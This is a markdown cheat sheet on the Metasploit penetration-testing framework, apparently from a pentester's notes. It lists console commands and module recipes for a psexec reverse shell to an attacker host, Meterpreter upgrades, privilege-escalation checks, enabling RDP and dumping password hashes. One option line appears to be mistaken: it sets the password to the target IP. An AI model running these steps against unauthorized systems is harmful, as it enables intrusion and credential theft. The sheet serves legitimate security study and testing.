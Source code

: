 ```yaml
---
title: METASPLOIT
summary: A penetration testing framework.
description: A penetration testing framework.
---
```


**[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)**

## METASPLOIT Terminology

### Non-Staged Payload

**Non-staged (Singles or Inline) payload are sent all at once.**

Example: windows/meterpreter_reverse_tcp.

### Staged Payload

**Staged payloads are sent in two steps:** an initial part is installed (the stager) and requests the rest of the payload. This allows for a smaller initial payload size.

Example: windows/meterpreter/reverse_tcp.

### Modules

* **Exploits:** Exploits.
* **Payloads:** Payloads (exploit + goal).
  * **Singles:** Self-contained payloads that do not need to download an additional component to run.
  * **Stagers:** Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. 
  * **Stages:** Downloaded by the stager. This will allow you to use larger sized payloads.
* **Evasion:** Try to bypass antivirus. 
* **Auxiliary:** Supporting modules such as scanners, crawlers and fuzzers.
* **Post:** Post exploitation.

### Exploit Ranking

![METASPLOITExploitRanking.png](../imgs/METASPLOITExploitRanking.png)

Source: https://docs.metasploit.com/docs/using-metasploit/intermediate/exploit-ranking.html

## METASPLOIT Console


 > 
 > **<font color=red>msfdb init</font>**</br>
 > Initialize database.
 > 
 > **<font color=red>msfconsole</font>**</br>
 > Start metasploit console.
 > 
 > **<font color=red>db_status</font>**</br>
 > Check database connection.

 > 
 > **<font color=red>search </font>\[SERVICE_TO_EXPLOIT\]**</br>
 > Search for an exploit to use against the specified service.
 > 
 > **<font color=red>use</font> \[MODULE\]**</br>
 > Select a module.
 > 
 > **<font color=red>use auxiliary</font>**</br>
 > Select an auxiliary module. 

 > 
 > **<font color=red>info</font>**</br>
 > Display information about selected module.
 > 
 > **<font color=red>show options</font>**</br>
 > Show variables (options) of selected module.

 > 
 > **<font color=red>set</font> \[VARIABLE\] \[VALUE\]**</br>
 > Set variable (option) of selected module.
 > 
 > **<font color=red>setg</font> \[VARIABLE\] \[VALUE\]**</br>
 > Set variable (option) globaly (for all modules).
 > 
 > **<font color=red>unset</font> \[VARIABLE\] \[VALUE\]**</br>
 > Unset variable.

 > 
 > **<font color=red>exploit</font>**</br>
 > Run the exploit (**<font color=red>-j</font>** to run it in background job). **run** is an alias to exploit.

 > 
 > **<font color=red>sessions -l</font>**</br>
 > List opened sessions.
 > 
 > **<font color=red>sessions</font> 1**</br>
 > Open session 1.
 > 
 > **<font color=red>background</font>**</br>
 > Background session (Ctrl + z).

 > 
 > **<font color=red>connect</font> \[HOST\]**</br>
 > Netcat like connection.
 > 
 > **<font color=red>spool</font>**</br>
 > Write console output into a file as well the screen.

## METASPLOIT Modu

### Handler Multi


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload</font> linux/x86/meterpreter/reverse_tcp**</br>
 > Handler for linux (efl) reverse shell.

### Reverse Shell Windows


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/windows/smb/psexec</font>**
 > 
 > **<font color=red>set lhost</font> \[ATTACKER_IP\]**</br>
 > **<font color=red>set rhosts</font> \[TARGET_IP\]**</br>
 > **<font color=red>set smbdomain</font> \[TARGET_DOMAIN\]**</br>
 > **<font color=red>set smbuser </font>\[TARGET_USER\]**</br>
 > **<font color=red>set smbpass</font> \[TARGET_IP\]**</br>
 > **<font color=red>set payload </font>windows/x64/meterpreter/reverse_tcp**</br>
 > Create a reverse shell from a SMB share.

### Post Exploit Multi


 > 
 > **<font color=red>use</font> <font color=lightblue>multi/manage/shell_to_meterpreter</font>**</br>
 > Upgrade shell to a Meterpreter session.


 > 
 > **<font color=red>use</font> <font color=lightblue>post/multi/recon/local_exploit_suggester</font>**</br>
 > Check exploits for privilege escalation.

### Post Exploit Windows


 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/gather/checkvm</font>**</br>
 > Check if the machine a VM.

 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/manage/enable_rdp</font>**</br>
 > Try to enable RDP.

 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/gather/enum_shares</font>**</br>
 > Enumerate shares.

### Post Exploit Linux


 > 
 > **<font color=red>use</font> <font color=lightblue>linux/gather/hashdump</font>**</br>
 > Dump users hashes.

## METASPLOIT Impersonate
